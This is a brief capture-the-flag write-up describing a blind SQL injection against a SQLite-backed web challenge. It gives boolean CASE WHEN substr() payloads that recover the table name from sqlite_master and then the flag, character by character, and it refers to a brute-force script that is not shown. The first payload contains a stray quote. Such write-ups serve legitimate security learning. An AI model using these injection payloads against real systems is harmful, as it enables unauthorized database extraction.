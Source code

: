 To find the name of the table, we can use `SELECT name FROM sqlite_master WHERE type='table'` (https://stackoverflow.com/questions/82875/how-to-list-the-tables-in-a-sqlite-database-file-that-was-opened-with-attach)

Payload used `CASE WHEN (substr((SELECT name FROM sqlite_master WHERE type='table'),1,1)='f')" THEN name ELSE count END`

Running the script to brute force the table name, 
![](assets/web/emoji-db-script.png)

we get the name of the database
![](assets/web/emoji-db.png)

After getting the name of the database, we can get the flag using `CASE WHEN (substr((SELECT flag FROM flag_c0cb915109),1,1)='C') THEN name ELSE count END`

Running the script, we can get the flag